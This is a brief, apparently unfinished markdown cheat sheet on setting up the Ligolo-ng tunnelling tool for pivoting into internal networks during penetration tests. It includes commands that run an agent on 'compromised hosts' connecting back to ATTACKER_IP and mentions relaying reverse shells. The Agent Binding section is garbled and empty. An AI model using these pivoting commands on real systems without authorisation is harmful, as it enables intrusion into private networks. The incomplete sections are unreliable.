

# Ligolo-Ng





### Setup Ligolo-ng

`Creating a Tun Interface`

```
# Before running ligolo-ng proxy, you must create a tuntap virtual interface
sudo ip tuntap add user kali mode tun ligolo
sudo ip link set ligolo up
```

`Connecting to a Ligolo-Agent`

```
# 1. On the attacking machine :
./proxy -selfcert -laddr 0.0.0.0:9901

# 2. On each compromised host with the network that you want to pivot to
./agent -connect ATTACKER_IP:9901
```

### Agent Binding/Listening

`Agent Binding/listening will allow you to capture a reverse shell from an internal network and forward it through the ligolo VPN. You can then launch a netcan from the attacking machine`

```
# 1. On the attacking machine :

# 1. On the attacking machine :
# 1. On the attacking machine :
```

```
132.227.118.20
sudo ip route add 132.227.118.0/24 dev ligolo
```


### Use Cases&#x20;

TODO
